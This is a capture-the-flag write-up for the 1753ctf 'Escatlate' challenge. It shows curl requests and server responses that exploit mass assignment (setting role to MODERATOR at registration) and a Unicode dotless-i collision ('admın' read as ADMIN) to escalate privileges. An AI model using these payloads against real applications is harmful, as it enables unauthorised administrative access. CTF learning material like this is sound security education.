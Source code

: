 # Escatlate
### There are two flags to find in this challenge. Let's take a look at how to find them.
[https://escatlate-52bc47e034fa.1753ctf.com/]
>
>Look! Kitties!
>
## Moderator

Logging in to the cat site automatically gets the `user role`, it allows you to browse the cat site and post comments. However, the application has a vulnerability: Mass Assignment. This means that the role assignment is not checked and the user can change it.That is, by providing a session token we are able to overwrite our role. Read more [here](https://tcm-sec.com/exploiting-mass-assignment-vulnerabilities/)

### example solution

```bash 
curl --path-as-is -i -s -k -X $'POST' -H '$HOST: escatlate-52bc47e034fa.1753ctf.com' -H $'User-Agent: Im.catthesecond' -H'Content-Type: application/json' -H $'Content-Lenght: 53' --data-binary $'{\"username\":\"fw\",\"password\":\"test\",\"role\":\"MODERATOR\"}' $'https://escatlate-52bc47e034fa.1753ctf.com/api/register'
```
Then we recive: 
```bash
{"username":"fw","password":"test","token":"336acba143e311f0371d56a04f1698aad191017df4162b0a32f78aadb5298ccd","role":"MODERATOR"}
```
With changed role and our token we can write:

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: escatlate-52bc47e034fa.1753ctf.com' -H $'User-Agent: Mr.FireFox' -H $'X-Token: 336acba143e311f0371d56a04f1698aad191017df4162b0a32f78aadb5298ccd' \           
    $'https://escatlate-52bc47e034fa.1753ctf.com/api/message'
```

## Admin

However, with the second flag, i.e. changing the role from `user` to `admin`, the application has a dotless vulnerability. When you specify a new role as `admın`, Unicode case collisions happen and it is read as `ADMIN`. More information [here](https://dev.to/jagracey/hacking-github-s-auth-with-unicode-s-turkish-dotless-i-460n)

### example solution
```bash 

url --path-as-is -i -s -k -X $'POST' -H '$HOST: escatlate-52bc47e034fa.1753ctf.com' -H $'User-Agent: Im.cat' -H'Content-Type: application/json' -H $'Content-Lenght: 53' --data-binary $'{\"username\":\"fw\",\"password\":\"sus\",\"role\":\"admın\"}' $'https://escatlate-52bc47e034fa.1753ctf.com/api/register'
```
Then we also recive:
```bash
{"username":"fw","password":"sus","token":"2b0b185cdbd08004698673d68697f262f2511ad8c446a98e2c058759aa4478e2","role":"admın"}
```
so we can confirm our role now is `admın` but app read this role as  `ADMIN` so we have admin righ. Now we can use our rights and token to get flag:
```bash
curl --path-as-is -i -s -k -X $'GET' \
-H $'Host: escatlate-52bc47e034fa.1753ctf.com' -H $'User-Agent: Im.cat' -H $'X-Token: 2b0b185cdbd08004698673d68697f262f2511ad8c446a98e2c058759aa4478e2' \
$'https://escatlate-52bc47e034fa.1753ctf.com/api/message'

```
